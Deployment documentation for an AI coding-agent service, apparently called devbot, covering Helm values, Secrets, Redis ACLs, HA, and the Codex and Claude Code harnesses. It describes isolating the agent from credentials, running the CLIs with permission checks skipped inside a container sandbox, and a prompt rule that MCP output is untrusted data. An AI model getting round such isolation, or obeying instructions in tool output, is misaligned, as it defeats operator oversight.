| `jobs.implement.activeDeadlineSeconds` | `4200` | Hard limit on an implement pod, which also runs parent tasks' [integration checks](devbot-yaml.md#integration-checks) and [plan jobs](architecture.md#plan-jobs) (under `timeouts.implement`). Keep it above repos' `timeouts.implement` and `integration.timeout`, with room for the check's clones. |
| `jobs.review.activeDeadlineSeconds` | `1800` | The same for review pods. |
| `jobs.implement.serviceAccount.annotations`, `jobs.review.serviceAccount.annotations` | `{}` | Annotations on the role's own ServiceAccount, `<release>-implement` or `<release>-review`, which its job pods run as (serve never does). For `aws.auth: irsa`, `eks.amazonaws.com/role-arn`; the chart refuses to render without it. See [Bedrock](#bedrock). |
| `jobs.agentResources` | 2 CPU / 1Gi request, 4 CPU / 8Gi limit | The agent runs the model harness and does the builds and tests, which take several cores. The scheduler places pods by request, so keep the CPU request near real use; the limit stops one job from taking a whole node. Size it for your heaviest repo. |
| `jobs.harnessResources` | small | |
| `jobs.modelProxyResources` | 10m / 32Mi request, 256Mi limit | The model proxy only forwards requests. |
| `docker.mode` | `""` | The [Docker daemon](#docker) for runs of repos with `docker: true` or detected as needing one: `dind`, or none. Rendered into `config.docker.mode`. With `dind`, each role gets a second ScaledJob, `<release>-<role>-docker`, whose pods carry the daemon, on `devbot:q:<role>-docker`. |
| `docker.detect` | `true` | With `docker.mode` set, gives the daemon to repos that leave `docker` unset and whose base branch has a testcontainers dependency or a Compose file ([Docker](#docker)). `false`: only `docker: true` counts. Rendered into `config.docker.detect`. |
| `docker.dind.image` | `docker:29.9.1-dind-rootless` | The rootless Docker daemon, pinned. |
| `docker.dind.acceptLooserSandbox` | `false` | Required `true` for `dind` to render: you accept the daemon container's sandbox ([the trade-off](#dind)), which Pod Security's `baseline` level refuses. |
| `docker.dind.resources` | 500m / 512Mi / 1Gi request; 4 CPU / 8Gi / 20Gi limit | The daemon and every container it runs, together. The ephemeral storage limit also caps the daemon's image and layer store. |
| `docker.dind.seccompProfile`, `docker.dind.appArmorProfile` | `{type: Unconfined}` each | The daemon container's profiles. See [the trade-off](#dind); a `Localhost` profile on every node narrows it. |
| `docker.dind.tunPlugin.enabled` | `true` | Runs the [TUN device plugin](#dind), a DaemonSet, `<release>-tun-plugin`, root on the node but with no privilege or capabilities, on the job nodes, which gives `/dev/net/tun` to each daemon. Turn it off only with `tunResource` naming a plugin of your own; the chart refuses `dind` with neither. |
| `docker.dind.tunPlugin.image` | `squat/generic-device-plugin:0.2.0@sha256:66c8…` | [squat/generic-device-plugin](https://github.com/squat/generic-device-plugin), pinned by version and digest. |
| `docker.dind.tunPlugin.count` | `110` | How many daemons one node's `/dev/net/tun` is given to at once: the kubelet's default pod limit, so it never holds a job pod back. |
| `docker.dind.tunPlugin.pluginDirectory` | `/var/lib/kubelet/device-plugins` | The kubelet's device-plugin directory on the nodes (k3s's too). |
| `docker.dind.tunPlugin.resources` | 10m / 16Mi request; 50m / 32Mi limit | The plugin only answers the kubelet. |
| `docker.dind.tunResource` | `""` | The extended resource the daemon's container claims one of. With `tunPlugin` on, the name it gives the device out as (empty: `devbot.io/tun`); with it off, required: a resource a device plugin of your own gives `/dev/net/tun` out as (e.g. `squat.ai/tun`). |
| `networkPolicy.enabled` | `true` | A default-deny policy per role for job pods: no ingress at all, and egress to DNS, Redis, the role's model API, and what the keys below allow (see [Egress](#egress)). And one for the bundled Redis, `<release>-redis`, admitting only this release's serve and job pods and KEDA's operator (see [Redis](#redis)). |
| `networkPolicy.modelAPI.claude`, `.codex`, `.bedrock` | Anthropic's `160.79.104.0/23` and `2607:6bc0::/48`; `[]`; `[]` | The CIDRs (port 443) of the API a role's model proxy calls: its harness's vendor, or `bedrock` for a role on Bedrock. A role whose list is empty fails the install unless `egressProxy.url` or `internet` is set. |
| `networkPolicy.egressProxy.url` | `""` | An HTTP(S) proxy for job pods: set as `HTTPS_PROXY` and `HTTP_PROXY` (and lowercase) in all three job containers, and in the Docker daemon's sidecar with `docker.mode: dind`, so its pulls go through it too, with `NO_PROXY` covering loopback (the model proxy), the Pod Identity agent and `.svc`/`.cluster.local`. |
| `networkPolicy.egressProxy.cidr`, `.namespace`, `.port` | `""`, `""`, `3128` | Where the egress proxy is, for the policy: one of `cidr` or `namespace` is required with `url`. |
| `networkPolicy.egressProxy.noProxy` | `[]` | More `NO_PROXY` entries, for what job pods reach directly (an allowed collector, a mirror in the cluster). |
| `networkPolicy.internet` | `false` | Allow any public address too (`0.0.0.0/0` and `::/0` except `privateCIDRs`), for self-provisioning from any registry. See the [trade-off](#egress). |
| `networkPolicy.privateCIDRs` | RFC 1918, `100.64.0.0/10`, link-local, `fc00::/7`, `fe80::/10` | What `internet` doesn't open. |
| `networkPolicy.allow` | `[]` | More destinations: `{cidr: x/32, ports: [...]}` or `{namespace: name}` (any port without `ports`). A private CIDR is allowed by being listed. Remember the forge and any OTEL collector, unless they're reached through the egress proxy. An MCP server named by hostname needs its address here too (see [MCP egress](#mcp-egress)). |
| `networkPolicy.extraEgress` | `[]` | Raw `NetworkPolicyEgressRule`s appended as they are. |
| `networkPolicy.keda.namespace`, `.podLabels` | `keda`, `{app.kubernetes.io/name: keda-operator}` | Where KEDA's operator runs, and its pods' labels: the one peer outside the release the bundled Redis admits, for the queue lengths. Helm merges `podLabels` into the default, so drop a default label with `null`. |
| `virtualService.enabled`, `.host`, `.prefix`, `.gateway` | `false`, `""`, `/`, `istio-system/ingressgateway` | Expose serve through an Istio VirtualService at `<host><prefix>`. Keep `prefix` at `/` for `auth.mode: oauth`, which needs serve at the root of its host ([Connector auth](#connector-auth)). |
| `virtualService.trustedProxies` | `[]` | While the VirtualService is on and `auth.mode` is `oauth`, rendered into `config.trusted_proxies` unless `config` sets it. Empty trusts no proxy, so the per-address limits are one for everyone behind the gateway; list the sidecar and gateway hops for one per client (see [Behind a proxy](#behind-a-proxy)). |
| `ingress.enabled`, `.host` | `false`, `""` | Expose serve through a standard Ingress, `<release>`, at the root of `host` (path `/`, `Prefix`), to serve's Service: for a forge that delivers webhooks from the internet (GitHub.com), and OAuth, which needs a public host of its own. `host` is required while it is on. Behind it, list the controller's addresses in `config.trusted_proxies` (see [Behind a proxy](#behind-a-proxy)). |
| `ingress.className` | `""` | The Ingress's `ingressClassName`. Empty: the cluster's default IngressClass. |
| `ingress.annotations` | `{}` | Annotations on the Ingress, e.g. `cert-manager.io/cluster-issuer`. |
| `ingress.tls.secretName` | `""` | The Secret holding `host`'s certificate, for the Ingress's `tls`. Empty: no `tls` section, for a controller that terminates TLS with a certificate of its own. |

The ScaledJobs use `rollout.strategy: gradual`, so a deploy doesn't kill jobs
that are already running. KEDA's default would.

## Secrets

| Secret (values key) | Keys | Read by |
|---|---|---|
| `secrets.forge` | each `*_token_env` (Gitea), `*_key_env` (GitHub) and `webhook_secret_env` named in `config.providers` | serve, every key; the harness of implement pods, the `implementer_*_env` keys alone; of review pods, the `reviewer_*_env` keys alone |
| `secrets.agents.claude` | `CLAUDE_CODE_OAUTH_TOKEN` (a subscription token from `claude setup-token`), or `ANTHROPIC_API_KEY`; on [Bedrock](#bedrock) with `aws.auth: access_keys`, `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and optionally `AWS_SESSION_TOKEN` | the model proxy of roles that run `claude`, unless `aws.auth` is `irsa` or `pod_identity` |
| `secrets.agents.codex` | `CODEX_API_KEY` (an OpenAI API key); on Bedrock with `aws.auth: access_keys`, the AWS keys as for `claude` | the model proxy of roles that run `codex`, unless `aws.auth` is `irsa` or `pod_identity` |
| `secrets.auth` | each `auth.*_env` named in `config.auth`: the forge OAuth app's client ID and secret, the auth key (and the previous one during a rotation) | serve only |
| `redis.existingSecret`, or the generated `<release>-redis` | `serve-password`, `harness-password`, `keda-password` | each its own: serve, the job pods' harness (never the agent), Redis, and KEDA (through a TriggerAuthentication) |
| `secrets.redis` | each of `config.redis`'s `sentinel.password_env` and `tls.ca_env` it names | serve, the job pods' harness (never the agent), KEDA |
| each of `imagePullSecrets` | `.dockerconfigjson` (`kubectl create secret docker-registry`) | the kubelet alone, pulling the images of the chart's pods and the service pods: no container mounts one |

Rotating the Claude token: run `claude setup-token`, then **delete and
recreate** the Secret rather than patching it. Then an alert on token age that reads
the Secret's creation time.

```bash
read -rs T && kubectl -n devbot delete secret devbot-claude && \
  kubectl -n devbot create secret generic devbot-claude --from-literal=CLAUDE_CODE_OAUTH_TOKEN="$T"; unset T
```

## Environment variables

| Variable | Where | Meaning |
|---|---|---|
| `DEVBOT_CONFIG` | all modes | Path to `config.yaml`. |
| `DEVBOT_AGENT_SOCKET` | harness, agent | Unix socket between them (default `/run/devbot/agent.sock`). `local` runs the model in the harness's own process, **for development only**, since the model can then reach the forge token, and the model credential the in-process model proxy holds. |
| `DEVBOT_REDIS_USERNAME`, `DEVBOT_REDIS_PASSWORD` | serve, harness | The Redis user and password, by the chart's `redis.username_env` and `redis.password_env`. Never in the agent sidecar. |
| `DEVBOT_PRIVATE_DIR` | harness | Where the harness keeps its private clone (default `$TMPDIR`). The chart uses an emptyDir at `/harness`. |
| `DEVBOT_MODEL_PROXY_STATE` | agent, model proxy | The file where the model proxy writes its address and placeholder token for the agent, which waits up to two minutes for it (default `/run/devbot-model/proxy.json`). |
| `DEVBOT_MODEL_PROXY_ADDR` | model proxy | Where it listens (default `127.0.0.1:8462`). Keep it on loopback: anything that can reach it can use the model credential. |
| `DEVBOT_PASS_ENV` | agent | Comma-separated variables the agent passes on to the CLI, the model's commands and the checks, besides its own short list (`PATH`, `HOME`, proxies, `OTEL_*`, `MISE_*`, ...). The chart sets it to `agentEnv`'s keys. A forge or model credential is never passed. |
| `DEVBOT_COMMIT_EMAIL_<PROVIDER>` | harness | Commit email for that provider's implementer, where `<PROVIDER>` is the `providers[].name` in upper case, e.g. `DEVBOT_COMMIT_EMAIL_GITEA` for `gitea`. Unset: `<implementer login>@users.noreply.local`. On GitHub, the App bot's `<bot user ID>+<slug>[bot]@users.noreply.github.com` links its commits to the App. |
| `DEVBOT_OTEL_ATTRS` | harness | Base `OTEL_RESOURCE_ATTRIBUTES` for model runs. devbot appends `devbot.role` and `devbot.repo`. Use it to tag devbot's usage apart from other users of the same harness (other Claude Code users, say). |
| `DEVBOT_POD_NAME` | harness | This pod's name, which the harness records on its lease for serve to [label the pod](#labelling-job-pods). The chart sets it from the downward API. Unset, the pod isn't labelled. |
| `DEVBOT_DOCKER` | harness | `true` in the pods of the `-docker` ScaledJobs, which the chart gives a [Docker daemon](#docker): the harness then takes only the jobs of repos that get one, from `devbot:q:<role>-docker`. Anything else: only the plain lists. |
| `DEVBOT_URL` | CLI | serve's base URL (default `http://localhost:8080`). |
| `DEVBOT_TOKEN` | CLI | A devbot access token to send, overriding `devbot login`'s saved sign-in. |
| `DEVBOT_TOKEN_FILE` | CLI | Where `devbot login` keeps devbot's tokens (default `~/.config/devbot/token.json`). |
| `CLAUDE_CODE_OAUTH_TOKEN`, `ANTHROPIC_API_KEY`, `CODEX_API_KEY` | model proxy | The model credential, from `secrets.agents.<harness>` (see [Secrets](#secrets)). The agent never passes these on, nor `ANTHROPIC_AUTH_TOKEN`, `OPENAI_API_KEY` or any `AWS_*` variable, should one be set in its container. |
| `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN` | model proxy | On [Bedrock](#bedrock) with `aws.auth: access_keys`: the static keys it signs with. |
| `AWS_WEB_IDENTITY_TOKEN_FILE`, `AWS_ROLE_ARN`, `AWS_ROLE_SESSION_NAME`, `AWS_ENDPOINT_URL_STS` | model proxy | On Bedrock with `aws.auth: irsa`, as EKS sets them: the role is assumed through STS with the token file, as session `AWS_ROLE_SESSION_NAME` (default `devbot-model-proxy`), at `AWS_ENDPOINT_URL_STS` (default `https://sts.<region>.amazonaws.com`). |
| `AWS_REGION`, `AWS_DEFAULT_REGION` | model proxy | With IRSA, the STS region, the first of them set; neither: the role's `aws.region`. Bedrock itself is always called in `aws.region`. |
| `AWS_CONTAINER_CREDENTIALS_FULL_URI`, `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`, `AWS_CONTAINER_AUTHORIZATION_TOKEN_FILE`, `AWS_CONTAINER_AUTHORIZATION_TOKEN` | model proxy | On Bedrock with `aws.auth: pod_identity`, as EKS sets them: where the Pod Identity agent hands out credentials, and the token to ask with. |
| `KUBERNETES_SERVICE_HOST`, `KUBERNETES_SERVICE_PORT` | serve | Set by Kubernetes in every pod: where serve reaches the API to [label job pods](#labelling-job-pods) and run [service containers](#service-containers). |
| `DEVBOT_TEST_FORGE` | tests | Runs the test suite against the fake forge's profile of that name (`github`), not its default. |
| `IS_SANDBOX=1` | image | Lets `claude --dangerously-skip-permissions` run as root. The pod is the sandbox. |

## Redis

Redis holds the queues, leases and events, and every sign-in
([connector auth](#connector-auth)). A job pod's agent shares the pod's
network with the harness, so it can reach Redis; what keeps it out is that
Redis has no anonymous user, and the agent has no password. Each client is its
own ACL user:

| User | Who | Can |
|---|---|---|
| `devbot-serve` | serve | everything |
| `devbot-harness` | the job pods' harness | read and write a job's keys: `devbot:queued`, `devbot:q:*`, `devbot:ratelimit:until`, `devbot:quota:*`, `devbot:events`, `devbot:stats`, `devbot:lease:*`, `devbot:lease-info:*`, `devbot:merge:*`, `devbot:merge-retry:*`, `devbot:eval:*`, `devbot:eval-dirty:*`, `devbot:once:*`, `devbot:eval-requests`; read the bots' logins under `devbot:bots:*`, the repo config generations under `devbot:repo-config:*`, job pods' service statuses under `devbot:services:*` and how their agent containers ended under `devbot:agent-exit:*`, which only serve writes. Nothing under `devbot:auth:*`, and no command that lists keys, flushes, or administers Redis. |
| `devbot-keda` | KEDA | the length of `devbot:q:implement`, `devbot:q:review`, `devbot:q:integrate` and their Docker lists (`-docker`), and `devbot:q:plan`: `TYPE` and `LLEN` on those keys, and `EVAL` and `EVALSHA` to run KEDA's list-length script, which Redis holds to the same commands and keys. No `SCRIPT` or `FUNCTION`, and nothing that administers Redis. |

The passwords are in `redis.existingSecret` or the Secret the chart
generates. The harness gets its own as env; the agent sidecar gets neither,
in its env or its files. The chart's Redis takes the ACL on stdin at start
(`devbot.redisACL` in the chart's `_helpers.tpl`). A Redis of your own
needs the same users.

With `networkPolicy.enabled`, a NetworkPolicy, `<release>-redis`, lets
only three kinds of pod connect to the bundled Redis, on 6379: this
release's serve and job pods (`app.kubernetes.io/instance` the release,
`app.kubernetes.io/component` `serve`, `implement` or `review`), and KEDA's
operator (`networkPolicy.keda`: by default pods labelled
`app.kubernetes.io/name: keda-operator` in namespace `keda`), which reads
the queue lengths. Another release's pods, service pods, the TUN device
plugin and the rest of the cluster can't reach it, password or not. A Redis
of your own (`redis.enabled: false`) gets no policy from the chart: give it
one of your own.

serve and the harness dial `redis.addr` (or `redis.sentinel.addrs`) as it is
set, from the release's namespace. KEDA's operator dials it too, to read
the queue lengths, but resolves names from its own namespace (`keda` by
default), where a Service's short name doesn't resolve. So for KEDA's
triggers only, the chart qualifies a single-label host with the release's
namespace: `devbot-redis:6379` in namespace `ai` becomes
`devbot-redis.ai.svc.cluster.local:6379`. A dotted name, an IP and
`localhost` are left as they are.

Sign-in records carry a MAC under a key derived from the auth key (see
[The auth key](#the-auth-key)), so even a client that can write to
`devbot:auth:*` can't make a grant or a token: a record serve didn't write
is ignored. A job's keys carry no MAC: the harness is devbot's own code,
and the password the agent hasn't got is what keeps the model from them.

The chart's ACL also has `user default off ~* &* +@all`. `off` means no
connection can be the default user: a new connection starts unauthenticated,
and `AUTH default` fails whatever the password. The default user still needs
every permission, because Redis replays its append-only file as that user
(see [Redis persistence](#redis-persistence)). A Redis of your own that you
persist with an append-only file needs the same.

### Redis persistence

With `redis.persistence.enabled`, the chart's Redis keeps an append-only
file (`--appendonly yes --appendfsync everysec`) on the claim
`<release>-redis`, with no RDB snapshots besides the file's own base. On a
restart Redis replays the file, so it comes back with everything devbot
wrote: sign-ins (grants, tokens, the people's forge credentials, client
registrations), the queues, leases, the event feed and its counters. A
restart that stops Redis cleanly loses nothing. A node lost outright, with
no shutdown, loses at most the last second's writes, the ones not yet
flushed to disk. For a sign-in that means one person signs in again, rarely,
not a token that works when it shouldn't. The next reconcile pass restores
anything else from the forge.

Replaying needs the default user's permissions. Redis 7.4 replays the file
through an internal client created as the default user
(`createAOFClient` in `aof.c`, `clientSetDefaultAuth` in `networking.c`).
`EXEC` checks each queued command against that client's user again before
running it (`execCommand` in `multi.c`), so a default user without
permissions has every `MULTI`/`EXEC` in the file refused with
`-NOPERM ACLs rules changed between the moment the transaction was
accumulated and the EXEC call`. Single commands are run without the check
(`loadSingleAppendOnlyFile` in `aof.c`). A `user default` line starts from
`reset`, which removes every permission. devbot writes a sign-in as a
transaction, and Redis writes a script that changes more than one key (an
event with its counter, most of the queue's operations) to the file as
`MULTI`/`EXEC` (`propagatePendingCommands` in `server.c`), so without the
default user's permissions a restart keeps few of devbot's records. So the
chart gives the default user `~* &* +@all` and keeps it `off`. `TestChartRedisPersistenceSurvivesRestart` in
`deploy/chart_test.go` runs the chart's Redis, signs someone in through
devbot's auth code, emits an event, kills Redis, starts it again on the same
files, and checks that every key comes back, the token still authenticates,
and the startup log has no `NOPERM` or AOF error.

RDB snapshots alone (`--save 60 1`, say) would need no ACL change, since
loading one runs no commands, but Redis stopped without saving loses every
write since the last snapshot: up to a minute's, where the append-only file
loses up to a second's.

`redis.nodeSelector`, `redis.tolerations` and `redis.affinity` place the
Redis pod like the jobs' options do. The claim is `ReadWriteOnce`, so with
a zonal StorageClass the pod stays in its volume's zone.

## High availability

serve runs as any number of replicas behind its Service. A serve outage stops
webhooks, the connectors, OAuth sign-ins, the UI and merges, so for HA:

```yaml
serve:
  replicas: 2              # or more; a PDB and spread across nodes and zones come with it
redis:
  enabled: false           # a managed or HA Redis instead, see below
  existingSecret: devbot-redis   # serve-password, harness-password, keda-password
config:
  redis:
    addr: redis.example.internal:6380
    tls: {enabled: true}
```

**What each replica does.** Every replica serves webhooks, `/mcp`, `/api`,
OAuth and the UI, and evaluates tasks. They share nothing in-process that
matters: tasks, sign-ins, queues, locks and the event feed are in the forge
and Redis, so any replica can take any request, and a client's next call can
land on another. A webhook a replica accepted but hadn't handled when it died
is repaired by the next reconcile pass, as with a lost webhook.

**Shutting down.** On a rollout or a drain, the pod's `preStop` sleeps 5 s
while Kubernetes takes it out of the Service's endpoints, still serving.
Then, on `SIGTERM`, serve stops accepting connections and gives the
requests it has 10 s to finish; then it handles every webhook event it
accepted and buffered, for at most 20 s, before it stops its workers and
exits. The pod's `terminationGracePeriodSeconds` is 45, so Kubernetes
doesn't kill it mid-drain. A webhook's delivery ID is marked as seen when
serve accepts it (`devbot:delivery:*`, 24 h, so the forge's retries aren't
handled twice) and unmarked if serve then doesn't handle it: the buffer was
full, handling it failed, or the drain deadline passed. A redelivery of it,
from the forge or from its delivery log by a person, is then handled, and
the reconcile pass repairs it meanwhile either way.

**Without Redis**, no replica can lead or evaluate. Each retries the lease
and the requested evaluations with a jittered backoff, doubling up to
`leader_lease` and a minute, so the logs get a warning per retry rather than
one a second, and `/metrics` still serves the process's own series with
`devbot_redis_up 0` ([Observability](#observability)).

**What only the leader does.** The reconcile loop, releasing delayed jobs
and outbound subscriber delivery run on one replica at a time, the one holding
the leader lease in Redis (`devbot:leader`). It renews the lease every third
of `leader_lease` (`15s`), and steps down if it can't renew before the lease
could expire. A follower tries for the lease every tenth of `leader_lease`, so:

- a leader that **shuts down** (a rollout, a drain) resigns, and a follower
  leads within about `leader_lease / 10`;
- a leader that **dies** or loses Redis leaves the lease to expire, and a
  follower leads within `leader_lease` of the leader's last renewal, plus
  its poll.

The handover loses nothing and repeats nothing that matters. A new leader's
first reconcile pass starts within 5 s. Each subscriber's cursor is in Redis
and moves only under the current leader's fencing token, so the new leader
carries on from the last event the old one delivered: none is skipped, and
only one whose delivery the handover cut short goes out twice, which the
receiver already dedupes on `X-Devbot-Event-Id`.

**Why a lease in Redis, not a Kubernetes Lease.** Redis is already a hard
dependency: without it no replica can queue, authenticate or merge, so a
Kubernetes Lease would add no availability. A lease in Redis also fences in
Redis, where the leader's writes go, in the same script as the write, and
needs no API access: serve's ServiceAccount token, mounted only for
[labelling job pods](#labelling-job-pods) and [service
containers](#service-containers), gets no Lease RBAC.

**Watch it** with `devbot_leader` (1 on the leader): `sum(devbot_leader)`
should be 1. Each replica logs `leading` and `stopped leading`.

### Redis for HA

The bundled Redis (`redis.enabled`, the default) is one pod. It is the simple
choice, and enough while serve is the only thing you need to keep up: if it
restarts, the next reconcile pass restores every queue, lease and lock from
the forge. What it can't restore are connector **sign-ins** and OAuth
client registrations, which only Redis holds, so without persistence a Redis
restart signs everyone out. `redis.persistence.enabled` keeps them on a
volume ([Redis persistence](#redis-persistence)), and that is all
persistence buys: nothing else devbot keeps is lost without it.

For HA, use a managed Redis (ElastiCache, Memorystore, Azure Cache) or your
own replicated one, with persistence or replicas so sign-ins survive
maintenance and failover. Set `redis.enabled: false` and `config.redis`:

| Redis | `config.redis` |
|---|---|
| one endpoint (a managed primary endpoint, or a proxy in front of a replicated Redis) | `addr`, and `db` if not 0 |
| Redis Sentinel | `sentinel.master` and `sentinel.addrs`, and `sentinel.username` / `sentinel.password_env` if the Sentinels have their own credentials |
| ACL users | always: `devbot-serve`, `devbot-harness` and `devbot-keda`, as in [Redis](#redis), with their passwords in `redis.existingSecret`. The chart sets `username_env` and `password_env`. |
| TLS | `tls.enabled`, and `tls.ca_env` for a private CA, `tls.server_name` when the certificate doesn't name the address |

**Redis Cluster isn't supported.** devbot's scripts change several keys
atomically, which Cluster only allows within one hash slot. A managed Redis
in cluster mode won't work; use its non-cluster (primary and replicas)
mode.

A CA or a Sentinel password goes in `secrets.redis`, one key per `*_env`.
The chart gives those keys to serve and the harness (never the agent), and
KEDA the same address, database, TLS and secrets in its ScaledJob triggers
(`redis`, or `redis-sentinel` with Sentinel), with its own user, through the
TriggerAuthentication `<release>-redis`. Allow job pods to reach a Redis in
a private range with `networkPolicy.allow`.

During a Redis failover, calls in flight may fail, and serve's readiness
(`/readyz`) drops until Redis answers again, while liveness (`/healthz`)
doesn't, so the pods aren't restarted for it. Keep `leader_lease` above the
failover's pause, or the leader steps down and a replica takes over once
Redis is back, which is harmless but noisy.

## Scale limits

Nothing a repo, org or instance holds has a size past which devbot stops
working. Each list devbot reads is one of:

- **read in full**, every page however many: an installation's or the
  Gitea user's repos, issues in a reconcile search, open PRs, branches,
  an issue's comments, events and timeline, a PR's reviews, the statuses
  and check runs on a commit, branch rules, and a GitHub body's edit
  history. A missing event, review or check could be the one a decision
  turns on, so none of these stops early. What it costs grows with the
  list: a repo with thousands of open PRs costs a page per hundred (GitHub)
  or fifty (Gitea) each time a task's PR is looked for among them.
- **narrowed** to devbot's own size: devbot's labels are each read by name,
  never listed with the repo's; GitHub lists only `devbot/` branches
  (`matching-refs`); searches are by devbot's labels.
- **capped where it only degrades one feature**, below.

What remains:

| Limit | What reaching it does |
|---|---|
| GitHub search returns 1,000 results a query | A query past it is split by `created:` range until each part fits. More than 1,000 tasks of one label created in one second, in one installation, can't be split: the reconcile pass works through the first 1,000, logs the error and counts it in `devbot_search_errors_total`. Webhooks still act on the rest, and nothing else in the pass is held up. |
| GitHub lists a tree in one response up to 100,000 entries or 7 MB | A recursive listing cut short is read again a directory at a time. Only a single directory with more entries than that can't be listed: [Docker detection](#docker) then gives the repo's runs no daemon, logs a warning and counts it in `devbot_docker_detection_errors_total`. Set `docker: true` in the repo's `.devbot.yaml` to skip detection. |
| Docker detection reads at most 16 manifests, of at most 512 KiB each, up to two directories down | A Testcontainers dependency only in a manifest past those isn't seen, and the runs get no daemon unless the repo sets `docker: true`. |
| Webhook buffer: 1,024 events per serve replica | An event that finds it full is dropped, answered `202`, counted in `devbot_webhook_events_total{result="dropped"}`, and its delivery unmarked, so a redelivery is handled. The next reconcile pass does what it would have done. Events devbot can't be concerned with are skipped before they take a place, and rate-limited ones are kept in Redis, so a burst that fills it is rare; a steady count of drops says serve needs more replicas. |
| In-memory caches: task routing blocks, read access, task details and task bases (10,000 entries each), change sets (1,000), Docker detection (4,096 commits) | Past the cap an entry makes room for each new one: the least recently used routing block, the oldest read-access answer, and an arbitrary entry of the others, so a pass over more tasks than fit still mostly hits. A miss is read again from the forge or git, except a routing block, which costs no read: an audit record goes without the task's origin until its comments are next read. |

devbot's own inputs to a model are bounded on purpose, and say so when they
cut something: the review budget, CI log lines and bytes, check
annotations (500 a check), attachments, feedback and the coordination
diffs.

## Agent harnesses

Each harness's CLI is in an image of its own, pinned in `docker/Dockerfile`
(see [Agent images](#agent-images)): Claude Code and the Codex CLI. A role picks one with `agents.<role>.harness`, and
either can run its model on [Bedrock](#bedrock). Either reaches its model
through the pod's [model proxy](#model-proxy), never with the credential
itself. Each run gets a process group of its own, and the agent kills the whole group as soon as the CLI
exits or times out, so nothing the CLI started outlives the run.

### Codex

The `codex` harness runs the Codex CLI 0.164.0 in non-interactive mode, with
the flags its `codex exec --help` lists:

```text
codex exec --json --sandbox danger-full-access --skip-git-repo-check \
  --ignore-user-config -o <CODEX_HOME>/last-message.txt \
  -c features.plugins=false -c skills.bundled.enabled=false -m <model> \
  -c openai_base_url="<model proxy>/v1" -
```

in the repo's working tree, with the prompt on stdin. A check-failure round
is `codex exec resume --json -c sandbox_mode="danger-full-access" ... <session> -`:
`resume` has no `--sandbox` flag, and a resumed session gets neither its
sandbox nor its model back, so devbot passes both again. The full-access
sandbox is safe only because the agent container is the sandbox.

- **`CODEX_HOME`** is a new directory per session, under the agent's
  `~/.cache/devbot/codex`, and `--ignore-user-config` skips any
  `config.toml`, so no stray config, history or login applies. A resume runs
  in its session's directory, which holds the session's rollout.
- **No plugins or bundled skills.** By default Codex clones OpenAI's plugin
  catalogue into `CODEX_HOME/.tmp` in the background at startup, still
  running after `codex exec` returns, and puts its bundled skills in the
  model's context. `features.plugins=false` and
  `skills.bundled.enabled=false` turn both off; skills the repo itself
  carries still load.
- **Output.** devbot reads the `--json` event stream: `thread.started` is the
  session, the last `agent_message` item is the result (the `-o` file fills in
  if the stream lost it), and `turn.completed` usage, summed over turns, gives
  input, cached input, cache-write, output and reasoning tokens. Codex reports
  no cost, so `devbot_agent_cost_usd_total` has no `codex` series.
- **Errors.** A `turn.failed`, or a final `error` that isn't one of Codex's
  own `Reconnecting... n/5` retries, fails the run. Its message is sorted
  into `rate_limited` (a usage or rate limit, a quota, a model at capacity;
  with the reset time when the message gives one), `auth` or `model_error` by
  a table of Codex's messages in `internal/agent/codex`. Codex doesn't
  document them, so a message the table doesn't know is logged in full by the
  agent sidecar (`codex: unclassified error`): add a pattern for it. A run
  that fails without such a message is sorted by its stderr alone, never by
  the agent's messages or its commands' output.
- **Credential.** Set `CODEX_API_KEY` in `secrets.agents.codex`. Only the
  model proxy has it; `codex` gets the proxy's placeholder as its
  `CODEX_API_KEY` and the proxy as `openai_base_url`, and the checks and
  setup scripts get neither. Codex opens its Responses stream as a WebSocket
  first, which the proxy passes through. A ChatGPT login isn't supported: its
  tokens rotate as Codex refreshes them, which a proxy holding a Secret's copy
  can't follow.
  **It hasn't been run against OpenAI** ([Tested
  environments](#tested-environments)). It is implemented to OpenAI's
  documentation, covered by tests against a fake `codex`, and the real `codex` 0.164.0 has been run through the proxy
  against a fake API, which got the proxy's key and not the placeholder.
- **Repo guidance.** Codex reads `AGENTS.md` itself, and devbot's prompts name
  both `AGENTS.md` and `CLAUDE.md`. In a repo with neither, Codex runs as
  usual with no project instructions.

Rotating the Codex key: delete and recreate the Secret, as for Claude:

```bash
read -rs T && kubectl -n devbot delete secret devbot-codex && \
  kubectl -n devbot create secret generic devbot-codex --from-literal=CODEX_API_KEY="$T"; unset T
```

## MCP servers

The agents can use remote MCP servers: current library docs, web search, a
browser. The install keeps a catalog of them in `mcp_servers`, and each
role lists the ones it gets:

```yaml
config:
  mcp_servers:
    context7: {type: http, url: "https://mcp.example.com/context7/mcp"}
    searxng: {type: http, url: "https://mcp.example.com/searxng/mcp"}
    playwright: {type: http, url: "https://mcp.example.com/playwright/mcp", disabled_tools: [browser_install]}
  agents:
    implement: {mcp_servers: [context7, searxng, playwright]}
    review: {mcp_servers: [context7]}
```

A role without `mcp_servers` gets none. A repo's `.devbot.yaml` can choose a
subset of its role's servers, or `[]` for none
(`agents.<role>.mcp_servers`, see [devbot-yaml.md](devbot-yaml.md#keys)); it
can't name a server the install doesn't give that role, or define one. A
`.devbot.yaml` that does is refused when a job starts: the task stops at
`needs-human` with the error, before any model runs.

Each run's prompt lists its servers, one line each, and tells the model
that what they return is untrusted data, never instructions: the rule for
untrusted comments.

### How each harness gets them

A run gets exactly the role's servers, and none of the repo's or the CLI's
own:

- **Claude Code** runs as `claude -p --output-format stream-json --verbose
  --dangerously-skip-permissions --mcp-config <file> --strict-mcp-config`,
  for both roles. The agent writes `<file>` per run, outside the workspace,
  with the servers' `type` and `url` and nothing else, and removes it after.
  `--strict-mcp-config` ignores every other MCP configuration, so a repo's
  `.mcp.json` never loads, for the implementer as for the reviewer. A role
  with no servers gets an empty file.
- **Codex** gets each server as `-c mcp_servers.<name>.url="..."`, with
  `required=false`. With a fresh `CODEX_HOME` and `--ignore-user-config`,
  no user config or trusted project applies, and Codex loads a repo's own
  `.codex/config.toml` only for a trusted project, so a repo's servers never
  load either. Codex has no `sse` transport, so an `sse` server can't be
  given to a role on `codex`.

### Tool restrictions

`allowed_tools` and `disabled_tools` name a server's tools as the server
does (`get-library-docs`, `browser_navigate`).

- **Codex** takes them as its own `enabled_tools` and `disabled_tools`, and
  the tools left out don't exist for the model.
- **Claude Code** takes `disabled_tools` as `--disallowedTools` rules,
